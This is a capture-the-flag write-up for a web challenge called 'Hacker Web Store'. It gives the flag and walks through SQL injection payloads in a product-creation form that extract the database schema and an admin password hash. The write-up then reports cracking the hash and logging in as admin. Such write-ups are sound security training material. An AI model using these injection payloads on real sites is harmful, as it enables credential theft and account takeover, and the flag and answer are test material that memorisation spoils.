 # Hacker Web Store
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

This challenge may require a local password list, which we have provided below. Reminder, bruteforcing logins is not necessary and against the rules.

# Flag
flag{87257f24fd71ea9ed8aa62837e768ec0}

# Solution
Vulnerable to SQL Injection when executing INSERT statements to create new products. 

Assuming SQL statement is similar to this:

```sql
INSERT INTO products (name,price,desc)
VALUES ('test',2,'test');
```

Injecting: `name=test',10,(select+sqlite_version()))--+-&price=4&desc=hi`
```
3.31.1
```

Injecting: `name=test',10,(select+sql+from+sqlite_master))--+-&price=4&desc=hi`
```
CREATE TABLE users ( id INTEGER NOT NULL, name VARCHAR(100), password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )
```

Injecting: `name=test',10,(select+id||CHAR(32)||name||CHAR(32)||password+from+users+where+id=3))--+-&price=4&desc=hi`
```
3 website_admin_account pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```

Doing a google search for this hash gives some clues that this hash was generated by Python Werkzeug. Tried to use hashcat to crack but to no avail. Eventually used a script (see `brute.py`) 

```
[*] Hash cracked! (ntadmin1234):True
That took 37.410451889038086 seconds
```

Logging into the admin portal with the credentials (`website_admin_account:ntadmin1234`) gives the flag.

